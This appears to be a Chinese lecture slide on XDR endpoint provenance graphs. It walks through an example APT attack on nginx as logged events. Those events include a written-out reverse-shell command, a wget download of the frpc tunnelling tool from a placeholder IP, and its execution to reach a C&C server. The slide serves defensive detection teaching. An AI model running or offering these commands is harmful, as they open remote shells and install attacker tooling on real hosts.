

# 5.4 扩展检测和响应XDR
XDR-终端数据组织形式-终端溯源图
终端溯源图检测APT攻击示例：
攻击者通过恶意http请求利用nginx服务漏洞，下载和执行恶意文件，外联远程命令与控制（C&C）服务器。
菱形表示网络对象，椭圆表示文件对象，长方形表示进程对象。

系统监控日志 <进程，操作，行为属性>
1.<nginx, connect and exploit, bash -i >& /tcp/x.x.x.x/1234 0>&1 >
2.<nginx, execute, bash>
3.<bash, connet and download, wget x.x.x.x/frpc>
4.<bash, create, chmod 777 frpc>
5.<bash, execute, ./frpc -t xxxx -p 2331>
6.<frpc, connet , x.x.x.x:2331>
1: connect and exploit (bash -i >& /tcp/x.x.x.x/1234 0>&1)

nginx
1.漏洞利用
nginx服务
2.执行
恶意命令
3.下载
恶意文件
x.x.x.x:80
3: connect and download (wget x.x.x.x/frpc)
2: execute

x.x.x.x:80
bash
6. 连接
远控服务器
5. 执行
恶意文件
4. 提权
4: create (chmod 777 frpc)
5: execute (./frpc -t xxxx -p 2331)
6: connect
frpc
x.x.x.x:2331
/frpc
APT攻击示例. 攻击者通过恶意http请求利用nginx服务漏洞，下载和执行恶意文件，外联远程命令与控制（C&C）服务器。
溯源图
原始系统监控日志